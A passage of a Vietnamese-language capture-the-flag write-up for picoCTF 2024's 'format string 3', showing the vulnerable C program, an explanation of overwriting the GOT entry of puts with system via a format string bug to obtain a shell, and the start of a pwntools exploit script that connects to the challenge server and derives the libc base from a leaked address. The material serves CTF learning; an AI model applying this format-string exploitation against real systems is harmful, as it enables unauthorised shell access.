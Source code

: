 ```python=

p.interactive()
```
# [format string 3 (picoctf 2024)](https://play.picoctf.org/practice/challenge/449?category=6&page=2)
## Source code
```c 
#include <stdio.h>

#define MAX_STRINGS 32

char *normal_string = "/bin/sh";

void setup() {
        setvbuf(stdin, NULL, _IONBF, 0);
        setvbuf(stdout, NULL, _IONBF, 0);
        setvbuf(stderr, NULL, _IONBF, 0);
}

void hello() {
        puts("Howdy gamers!");
        printf("Okay I'll be nice. Here's the address of setvbuf in libc: %p\n", &setvbuf);
}

int main() {
        char *all_strings[MAX_STRINGS] = {NULL};
        char buf[1024] = {'\0'};

        setup();
        hello();

        fgets(buf, 1024, stdin);
        printf(buf);

        puts(normal_string);

        return 0;
}
```
- Ý tưởng bài này là dùng format string để overwite địa chỉ got của `puts` thành địa chỉ của `system` 
- Hàm `puts` có tham số là `/bin/sh`  nếu đổi thành `system` thì ta chiếm được shell
- Bài này cho địa chỉ của `setvbuf` nên ta tìm được địa chỉ libc
![image](https://hackmd.io/_uploads/HkORSCkuR.png)
- Ta thấy địa chỉ ofset của hàm `puts` và `system` khác nhau chỉ 3 byte nên ta chỉ cần overwrite 3 byte 
```python=
#!/usr/bin/python3
from pwn import *

context.binary = exe = ELF('./format-string-3', checksec=False)
libc = ELF('./libc.so.6', checksec = False)

p = process(exe.path)

p = remote('rhea.picoctf.net', 55731)
p.recvuntil(b'libc: ')

libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - libc.sym['setvbuf']
```